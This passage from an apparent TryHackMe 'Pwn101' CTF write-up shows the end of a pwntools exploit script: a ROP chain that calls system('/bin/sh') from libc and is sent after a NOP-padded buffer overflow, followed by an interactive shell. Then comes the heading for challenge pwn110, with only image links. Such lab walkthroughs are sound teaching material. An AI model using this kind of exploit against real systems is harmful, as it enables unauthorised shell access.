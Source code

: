 ```python
rop.system(next(libc.search(b'/bin/sh')), 0, 0)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
io.recvline()
io.sendline(b'\x90'*40 + rop.chain())

io.clean()
io.interactive()
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2053.png)

# Challenge 10 - pwn110

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2054.png)
